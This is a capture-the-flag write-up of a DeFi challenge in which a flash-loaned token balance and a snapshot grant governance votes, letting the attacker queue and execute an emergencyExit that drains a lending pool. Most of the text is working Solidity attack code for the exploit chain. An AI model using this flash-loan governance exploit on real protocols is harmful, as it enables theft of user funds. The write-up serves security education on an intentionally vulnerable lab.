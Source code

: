 > A new cool lending pool has launched!
> It’s now offering flash loans of DVT tokens.
> It even includes a fancy governance mechanism to control it.

> What could go wrong, right ?

> You start with no DVT tokens in balance, and the pool has 1.5 million.
> Your goal is to take them all.

## Becoming a governor

The web3 version of traditional `admin` users are the `governance` adresses.
And they really have all the powers:

```solidity
(bool success, bytes memory returndata) = actionToExecute.target.call{value: actionToExecute.value}(actionToExecute.data);
```

To be executed, an `action` has to be queued first, which requires "votes":

```solidity
if (!_hasEnoughVotes(msg.sender))
    revert NotEnoughVotes(msg.sender);
```

```solidity
function _hasEnoughVotes(address who) private view returns (bool) {
    uint256 balance = _governanceToken.getBalanceAtLastSnapshot(who);
    uint256 halfTotalSupply = _governanceToken.getTotalSupplyAtLastSnapshot() / 2;
    return balance > halfTotalSupply;
}
```

It requires to have more than half the supply of governance tokens!
(which means there can only be one admin...)

In theory the token for the underlying asset is distinguished from the token used in governance.
And the pool proposes flash loans of the underlying assets.

Luckily, the governance counts the shares in the underlying asset:

```js
governance = await (await ethers.getContractFactory('SimpleGovernance', deployer)).deploy(token.address);
```

So we can just borrow these:

```solidity
function getVotes() public {
    // borrow the maximum
    uint256 _amount = _pool.maxFlashLoan(address(_underlying));
    _pool.flashLoan(IERC3156FlashBorrower(address(this)), address(_underlying), _amount, "");
}
```

However, executing the attack chain like this will throw with `NotEnoughVotes`.
This is due to the fact that the governance contract checks the balance at the previous snapshot:

```solidity
uint256 balance = _governanceToken.getBalanceAtLastSnapshot(who);
```

So we have to take a snapshot first (hence the name):

```solidity
_underlying.snapshot();
```

## Sweeping the rug

Now that the contract has enough votes / balance, it can queue the actual action:

```solidity
function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data) external returns (bytes32) {
    // a decent contract would check the args here

    // take a snapshot of the underlying balances
    _underlying.snapshot();

    // queue the emergencyExit action
    bytes memory _payload = abi.encodeWithSignature("emergencyExit(address)", _player);
    _id = _governance.queueAction(address(_pool), 0, _payload);

    // payback the loan
    _underlying.approve(msg.sender, amount);

    // protocol
    return CALLBACK_SUCCESS;
}
```

Governance proposals are frozen for 2 days (so that the community has time to discuss them):

```solidity
unchecked {
    timeDelta = uint64(block.timestamp) - actionToExecute.proposedAt;
}

return actionToExecute.executedAt == 0 && timeDelta >= ACTION_DELAY_IN_SECONDS;
```

So we wait and then execute it:

```solidity
function getFunds() public {
    // execute the emergency exit action
    _governance.executeAction(_id);
}
```
